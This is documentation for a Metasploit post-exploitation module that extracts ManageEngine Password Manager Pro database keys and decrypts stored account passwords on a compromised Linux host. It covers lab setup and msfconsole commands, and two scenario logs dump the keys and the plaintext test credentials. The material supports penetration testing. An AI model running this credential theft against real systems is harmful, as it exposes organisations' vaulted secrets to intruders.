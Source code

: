 ## Vulnerable Application

This post module gathers ManageEngine's Password Manager Pro credentials from
the local database. This information is encrypted but all the key materials can
be extracted from the application configuration files and the database itself.

This module simply starts to retrieve the database password, the database
encryption key and the data encryption key, which is used to decrypt passwords
also stored in the database. The result is displayed and stored in the
Metasploit database.

For now, only Linux hosts are supported. This module has been tested with
Password Manager Pro versions 10.5.0 (build 10501) and 12.1.0 (build 12123),
both installed on Ubuntu 20.04.4 (x64).

### Installation

Download `ManageEngine_PMP_64bit.bin` from one of the versions at
https://archives2.manageengine.com/passwordmanagerpro/ and run the installer as
root.

For example:
```
$ curl -O https://archives2.manageengine.com/passwordmanagerpro/12123/ManageEngine_PMP_64bit.bin
$ chmod a+x ManageEngine_PMP_64bit.bin
$ ./ManageEngine_PMP_64bit.bin
```
Follow the step-by-step instructions as they appear on the screen. Enter any
location for the installation base path and select "High availability primary
server".

First, launch Password Manager Pro (PMP) in standalone mode. Depending on the
version, it is sometimes required to accept the License Agreement and select
the license type. If it is the case, select the Free license (`f`).
```
$ cd <installation base path>/bin/
$ ./wrapper ../conf/wrapper_lin.conf
```

Once the first time boot process is finished, access the following URL to make
sure it works: https://127.0.0.1:7272

You can test the module with PMP in standalone mode or continue for a service
installation:
Stop PMP (`Ctrl-C`) and run:
```
$ bash ./pmp.sh install
$ /etc/init.d/pmp-service start
```
PMP will run in the background and logs are located in the `<installation base path>/logs`
folder.

You can refer to the vendor [documentation](https://www.manageengine.com/products/passwordmanagerpro/help/installation.html).

### Setup

To properly test this module, some resources and accounts will need to be added to the database:
1. Access https://127.0.0.1:7272 and login as the main administrator with the default credentials (`admin`:`admin`):
1. Go to the `Resources` section on the left hand panel.
1. In the main panel, select `Add Resource` and `Add Manually`
1. Fill in the required fields (select any type of resource) and click `Save & Proceed`
1. Start adding accounts to this resource by filling the necessary fields and click `Add`
1. Once you have some accounts added, click `Save`
1. Repeat the process to add other resources/accounts


## Verification Steps

1. Install the application (see #Installation)
1. Start msfconsole
1. Get a session
1. Do: `use post/linux/gather/manageengine_password_manager_creds`
1. Do: `run verbose=true session=1`
1. **Verify** the installation is correctly detected
1. **Verify** all the key material is retrieved
1. **Verify** all the accounts are enumerated with their decrypted password
1. Do: `creds`
1. **Verify** the credentials are correctly stored in the database

To test the installation path detection logic, you can repeat the process with
PMP launched both in standalone mode and as a service.

Also, this is interesting to test with both a shell and Meterpreter sessions.

Note that an issue in Meterpreter makes the service detection logic fail to
detect the installation path. The other process detection works normally, so it
doesn't block the module execution.

## Options

### INSTALL_PATH

The Password Manager Pro installation path. If not provided, the module will
try its best to detect it.

### PG_HOST

The PostgreSQL host. Password Manager Pro run PostgreSQL locally by default, so
the default value is `127.0.0.1`.

### PG_PORT

The PostgreSQL port. Default is 2345.

## Scenarios

### Meterpreter session on Ubuntu 20.04.4 - PMP version 12.1.0 (build 12123)

```
msf post(linux/gather/manageengine_password_manager_creds) > run verbose=true session=1

[*] Detecting installation path
[*] Trying to detect path from the Password Manager service
[-] `/etc/init.d/pmp-service` is not a symlink and the installation path cannot be detected
[*] Trying to detect path from the Password Manager related processes
[*] Installation path: /opt/ManageEngine/PMP
[*] Getting the database password
[+] Database password: BKPVR8EFqy
[*] Getting the database encryption key
[+] Found the database key configuration: /opt/ManageEngine/PMP/conf/pmp_key.key
[+] Database encryption key: crOKEnAvDftdOiW4u7fnhAD5iDBVksKYfc24mR3BZjE\=
[+] `notesdescription` field value: T-e)>(72LJCC7007
Password Manager Pro Credentials
================================

 Resource Name  Resource URL              Account Notes    Login Name     Password
 -------------  ------------              -----------      ----------     --------
 Resource 1     https://foomsf.com        Admin creds      Administrator  P@ssw0rd!
 Resource 1     https://foomsf.com        Op creds         Operator       MySuperStrongPassword
 Resource 1     https://foomsf.com        Test account     TestUser       12345678
 Resource2      https://mysql.foomsf.com  SQL admin        master         MyP@sswd123$
 Resource2      https://mysql.foomsf.com  web db password  webdb          123webpassW0Rd@

[*] Post module execution completed
msf post(linux/gather/manageengine_password_manager_creds) > creds
Credentials
===========

host  origin           service  public         private                realm  private_type  JtR Format
----  ------           -------  ------         -------                -----  ------------  ----------
      192.168.177.152           Administrator  P@ssw0rd!                     Password
      192.168.177.152           Operator       MySuperStrongPassword         Password
      192.168.177.152           TestUser       12345678                      Password
      192.168.177.152           master         MyP@sswd123$                  Password
      192.168.177.152           webdb          123webpassW0Rd@               Password
```

### Shell session on Ubuntu 20.04.4 - PMP version 12.1.0 (build 12123)

```
msf post(linux/gather/manageengine_password_manager_creds) > run verbose=true session=2

[*] Detecting installation path
[*] Trying to detect path from the Password Manager service
[*] Installation path: /opt/ManageEngine/PMP
[*] Getting the database password
[+] Database password: BKPVR8EFqy
[*] Getting the database encryption key
[+] Found the database key configuration: /opt/ManageEngine/PMP/conf/pmp_key.key
[+] Database encryption key: crOKEnAvDftdOiW4u7fnhAD5iDBVksKYfc24mR3BZjE\=
[+] `notesdescription` field value: T-e)>(72LJCC7007
Password Manager Pro Credentials
================================

 Resource Name  Resource URL              Account Notes    Login Name     Password
 -------------  ------------              -----------      ----------     --------
 Resource 1     https://foomsf.com        Admin creds      Administrator  P@ssw0rd!
 Resource 1     https://foomsf.com        Op creds         Operator       MySuperStrongPassword
 Resource 1     https://foomsf.com        Test account     TestUser       12345678
 Resource2      https://mysql.foomsf.com  SQL admin        master         MyP@sswd123$
 Resource2      https://mysql.foomsf.com  web db password  webdb          123webpassW0Rd@

[*] Post module execution completed
msf post(linux/gather/manageengine_password_manager_creds) > creds
Credentials
===========

host  origin           service  public         private                realm  private_type  JtR Format
----  ------           -------  ------         -------                -----  ------------  ----------
      192.168.177.152           Administrator  P@ssw0rd!                     Password
      192.168.177.152           Operator       MySuperStrongPassword         Password
      192.168.177.152           TestUser       12345678                      Password
      192.168.177.152           master         MyP@sswd123$                  Password
      192.168.177.152           webdb          123webpassW0Rd@               Password
```
